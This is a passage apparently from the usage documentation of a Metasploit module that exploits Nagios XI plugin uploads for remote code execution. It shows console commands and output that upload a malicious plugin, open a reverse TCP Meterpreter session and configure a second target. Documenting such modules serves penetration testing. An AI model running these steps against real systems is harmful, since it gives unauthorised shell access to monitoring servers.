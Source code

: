```

[*] Started reverse TCP handler on 192.168.1.28:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[!] The target seems to be a Nagios XI application that has not been fully installed yet.
[*] Attempting to finish the Nagios XI installation on the target using the provided password. The username will be `nagiosadmin`.
[*] Attempting to authenticate to Nagios XI...
[!] The Nagios XI license agreement has not yet been signed on the target.
[*] Attempting to sign the Nagios XI license agreement...
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.3.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[!] For NagiosXi version 5.3.0 it may take several minutes for a session to open. If the module times out, try increasing the `WfsDelay` value.
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012516 bytes) to 192.168.1.16
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.16:36098) at 2021-04-01 10:42:40 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: nagios @ localhost.localdomain (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter >
```

### Nagios XI 5.6.5 running on Ubuntu 20.04 LTS (finished installation) - Linux (x64) target
```
msf6 > use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOST 172.25.133.237
RHOST => 172.25.133.237
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST 172.25.132.121
LHOST => 172.25.132.121
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LPORT 7712
LPORT => 7712
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes s
                                              igning the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          172.25.133.237   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
```
